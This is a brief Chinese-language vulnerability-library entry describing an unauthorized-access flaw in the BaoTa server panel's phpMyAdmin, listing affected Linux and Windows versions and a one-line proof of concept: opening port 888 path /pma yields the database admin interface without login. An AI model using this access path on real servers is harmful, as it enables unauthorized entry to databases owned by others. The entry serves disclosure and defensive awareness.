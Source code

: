 ```yaml
---
title: '宝塔面板phpMyAdmin未授权访问漏洞'
date: Fri, 04 Sep 2020 05:02:35 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

Linux面板7.4.2 Windows面版6.8

### 漏洞POC

访问：

```
http://ip:888/pma
```

即可成功进入phpMyAdmin管理界面 （需要安装了phpmyadmin）